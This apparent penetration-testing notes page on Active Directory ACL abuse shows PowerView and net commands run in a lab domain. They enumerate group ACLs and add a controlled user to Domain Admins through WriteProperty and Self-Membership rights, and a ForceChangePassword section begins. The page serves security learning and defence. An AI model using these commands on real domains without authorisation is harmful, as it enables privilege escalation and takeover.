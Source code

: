 ### WriteProperty on Group

If our controlled user has `WriteProperty` right on `All` objects for `Domain Admin` group:

![](<../../.gitbook/assets/Screenshot from 2018-11-08 11-11-11.png>)

We can again add ourselves to the `Domain Admins` group and escalate privileges:

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 11-06-32.png>)

### Self (Self-Membership) on Group

Another privilege that enables the attacker adding themselves to a group:

![](<../../.gitbook/assets/Screenshot from 2018-11-08 11-23-52.png>)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 11-25-23.png>)

### WriteProperty (Self-Membership)

One more privilege that enables the attacker adding themselves to a group:

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 15-21-35.png>)

```csharp
net group "domain admins" spotless /add /domain
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 15-22-50.png>)

### **ForceChangePassword**

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 12-30-11.png>)
